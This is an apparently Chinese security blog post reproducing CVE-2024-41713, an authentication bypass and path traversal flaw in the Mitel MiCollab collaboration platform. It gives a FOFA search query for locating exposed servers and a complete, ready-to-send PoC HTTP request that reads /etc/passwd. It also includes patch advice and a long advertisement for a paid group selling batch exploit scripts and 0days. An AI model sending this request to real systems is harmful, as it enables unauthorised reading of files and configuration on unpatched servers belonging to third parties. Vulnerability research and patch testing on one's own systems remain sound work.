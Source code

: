 #  「漏洞复现」Mitel MiCollab 企业协作平台 任意文件读取漏洞(CVE-2024-41713)   
冷漠安全  冷漠安全   2024-12-09 13:40  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0pFeDPJNnYaE7pYibBLQrUbLZwqelcotCqhYf0seBKfHroSUm8XuHyka5I3SmicWcJYUpZbFmxJCZ1Q/640?wx_fmt=gif&from=appmsg "")  
  
0x01 免责声明  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
产品介绍  
  
Mitel MiCollab是加拿大Mitel（敏迪）公司推出的一款企业级协作平台，旨在为企业提供统一、高效、安全的通信与协作解决方案。通过该平台，员工可以在任何时间、任何地点，使用任何设备，实现即时通信、语音通话、视频会议、文件共享等功能，从而提升工作效率和团队协作能力。适用于各种规模和类型的企业。通过该平台，企业可以提升工作效率、增强团队协作能力、保障信息安全，并推动业务的持续发展。  
  
0x03  
  
漏洞威胁  
  
由于Mitel MiCollab软件的 NuPoint 统一消息 (NPM) 组件中存在身份验证绕过漏洞，并且输入验证不足，未经身份验证的远程攻击者可利用该漏洞执行路径遍历攻击，成功利用可能导致未授权访问、破坏或删除用户的数据和系统配置。  
  
影响范围：  
  
version < MiCollab 9.8 SP2 (9.8.2.12)  
  
0x04  
  
漏洞环境  
  
FOFA:  
   
```
body="MiCollab End User Portal"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0oricK6lo4UINuZnbJqrFFK0zyqqIRb4UU7ap9k88IU1Hrfmye03D7oFpraRwoJ0VM8xxdicVKhcJvQ/640?wx_fmt=png&from=appmsg "")  
  
  
0x05  
  
漏洞复现  
  
PoC  
```
POST /npm-pwg/..;/ReconcileWizard/reconcilewizard/sc/IDACall?isc_rpc=1&isc_v=&isc_tnum=2 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Content-Type: application/x-www-form-urlencoded

_transaction=<transaction xmlns:xsi="http://www.w3.org/2000/10/XMLSchema-instance" xsi:type="xsd:Object"><transactionNum xsi:type="xsd:long">2</transactionNum><operations xsi:type="xsd:List"><elem xsi:type="xsd:Object"><criteria xsi:type="xsd:Object"><reportName>../../../etc/passwd</reportName></criteria><operationConfig xsi:type="xsd:Object"><dataSource>summary_reports</dataSource><operationType>fetch</operationType></operationConfig><appID>builtinApplication</appID><operation>downloadReport</operation><oldValues xsi:type="xsd:Object"><reportName>x.txt</reportName></oldValues></elem></operations><jscallback>x</jscallback></transaction>&protocolVersion=1.0&__iframeTarget__=x
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0oricK6lo4UINuZnbJqrFFK0095gnoLHk651YwIbBh3IicOsDWjm29PFLMD8I5tksG5sO2JP7zJXt5w/640?wx_fmt=png&from=appmsg "")  
  
  
0x06  
  
批量脚本验证  
  
Nuclei验证脚本已发布  
  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0oricK6lo4UINuZnbJqrFFK040LRiaC29bsuXRFpCr0Gj6J6x14CKcyj1zeFHB3hATZAupXtbOmWsgg/640?wx_fmt=png&from=appmsg "")  
  
  
0x07  
  
修复建议  
  
建议使用受影响产品版本的客户更新到最新版本。  
  
用户应升级到MiCollab 9.8 SP2 (9.8.2.12)或更高版本，以确保其系统免受此关键漏洞的影响。  
  
对于那些无法立即升级的用户，Mitel 还为 9.7 及以上版本提供了一个补丁，在完成全面升级之前提供了一个替代解决方案，同时确保了安全性。该补丁的详细说明可在 Mitel 的知识管理系统 (KMS) 中找到。  
  
0x08  
  
加入我们  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全  
  
交个朋友，限时优惠券：加入立减25  
  
星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0oricK6lo4UINuZnbJqrFFK0TxNIanSyr5DCkY6DxiaMsujGfu6mJHwiaYsMYfD6GF1jffAI2b4M9IjQ/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0oricK6lo4UINuZnbJqrFFK0Ibib399icic5slicSelwfKUt4hkblFKzt5IA67bEGvdXKibQ0GhROL9EibjA/640?wx_fmt=gif&from=appmsg "")  
  
  
